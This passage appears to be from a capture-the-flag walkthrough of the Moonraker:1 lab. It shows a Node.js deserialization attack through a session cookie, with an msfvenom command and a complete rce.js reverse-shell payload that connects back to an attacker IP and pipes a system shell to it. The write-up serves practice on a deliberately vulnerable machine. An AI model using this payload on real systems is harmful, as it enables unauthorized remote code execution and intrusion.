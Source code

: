Upon logging in, the server send me a "Set-Cookie" header.

<a class="image-popup" title="Me want cookie!">
![febf16dc.png](/assets/images/posts/moonraker-1-walkthrough/febf16dc.png)
</a>

Good thing I'm familiar with Node.js deserialization exploit. You can read about it [here](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/).

## Low-Privilege Shell

There’s a slight difference though—I’m using the reverse shell generated by `msfvenom` instead.

```
# msfvenom -p nodejs/shell_reverse_tcp LHOST=192.168.20.128 LPORT=1234
```

Incorporate the output from `msfvenom` into `rce.js`. Remember to remove the enclosing round brackets.

<div class="filename"><span>rce.js</span></div>

```js
var rev = {
rce: function(){ var require = global.require || global.process.mainModule.constructor._load; if (!require) return; var cmd = (global.process.platform.match(/^win/i)) ? "cmd" : "/bin/sh"; var net = require("net"), cp = require("child_process"), util = require("util"), sh = cp.spawn(cmd, []); var client = this; var counter=0; function StagerRepeat(){ client.socket = net.connect(1234, "192.168.20.128", function() { client.socket.pipe(sh.stdin); if (typeof util.pump === "undefined") { sh.stdout.pipe(client.socket); sh.stderr.pipe(client.socket); } else { util.pump(sh.stdout, client.socket); util.pump(sh.stderr, client.socket); } }); socket.on("error", function(error) { counter++; if(counter<= 10){ setTimeout(function() { StagerRepeat();}, 5*1000); } else process.exit(); }); } StagerRepeat(); }
};

var serialize = require('node-serialize');
console.log(serialize.serialize(rev));
```
